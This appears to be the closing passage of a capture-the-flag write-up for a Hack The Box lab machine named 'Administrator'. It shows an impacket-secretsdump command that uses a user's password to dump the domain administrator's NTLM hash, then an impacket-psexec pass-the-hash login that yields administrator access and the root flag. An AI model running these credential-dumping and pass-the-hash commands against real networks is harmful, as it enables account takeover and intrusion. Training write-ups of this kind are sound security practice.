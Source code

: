 The easiest way of achieving this, as shown on BloodHound, is to use `impacket-secretsdump`

```bash
impacket-secretsdump administrator.htb/ethan:'limpbizkit'@administrator.htb
```
We now have the NTLM hash of the administrator. 

![](/assets/images/htb/administrator/25impacketadmin.png)

Finally, take the back half of the hash and we will run `impacket-psexec`

```bash
impacket-psexec administrator@administrator.htb -hashes :PLACE HASH HERE
```

![](/assets/images/htb/administrator/26psexec.png)

---
## Post-Exploitation and Flag

Now that we have administrator access, we can access the administrator's desktop and retrieve our root.txt flag.

![](/assets/images/htb/administrator/27rootflag.png)

---